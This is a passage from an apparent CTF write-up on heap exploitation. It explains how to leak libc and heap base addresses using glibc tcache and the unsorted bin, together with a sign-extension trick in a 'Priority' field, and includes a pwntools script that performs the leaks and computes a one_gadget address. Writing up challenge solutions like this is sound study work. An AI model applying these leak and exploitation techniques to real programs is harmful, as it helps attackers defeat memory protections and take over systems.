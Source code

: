 ### MEMORY LEAKS

We have malloc and we have tcache. That's enough to get libc right? But how?

So here's the idea , we allocate 8 chunks , free 8 chunks , now 7 of them go into tcache and one remaining chunk goes into unsorted bin.

Now we can add back 7 chunks and consume all tcache , and adding one more will give us our unsorted bin chunk which we can read.

Reminding you that we have first 8 bytes on any malloc'd chunk exclusively reserved for **Priority**.

In order to get our beloved libc leak , we first need to make sure that all 8 bytes of **Priority** are occupied. This can be achieved by simply giving a size larger than 4 bytes which would trick **cdqe** into thinking it as negetive and thus filling up all 8 bytes of Priority.

Wait , what about Heap??

If we send two different chunks to unsorted bin , we can get unsorted bin chunks, one of whose bk pointer is heap.

Nice , so let's script it a bit.

```py
   if __name__=="__main__":
    send_name('aaaaa')

    #Initially we allocate 10 chunks
    for i in xrange(10): 
        add(123,'a')
    
    #Then we start filling tcache from 3rd chunk
    for i in xrange(3,10):
        free(i)
    #These two chunks go into unsorted bin chunks without merging.
    free(0)
    free(2)
    #Now we consume all 7 tcache chunks that we first filled
    for i in xrange(7):
        add(123123,'fill_tcache')
    #Finally , we get back our unsorted bin chunks whose bk pointers will give heap and libc.
    add('123456789123','a')
    add('123456789123','a')
    view(8)
    #Libc
    io.recvuntil('Command: ')
    libc_base = u64(io.recv(6) + '\x00'*2) - 0x3ebc61
    log.info("libc_base = " + hex(libc_base))
    one_gadget = libc_base + 0x10a38c
    #Heap
    view(9)
    io.recvuntil('Command: ')
    heap_base = u64(io.recv(6) + '\x00'*2) - 0x561
    log.info("heap_base = " + hex(heap_base))
    gdb.attach(io)
   
```
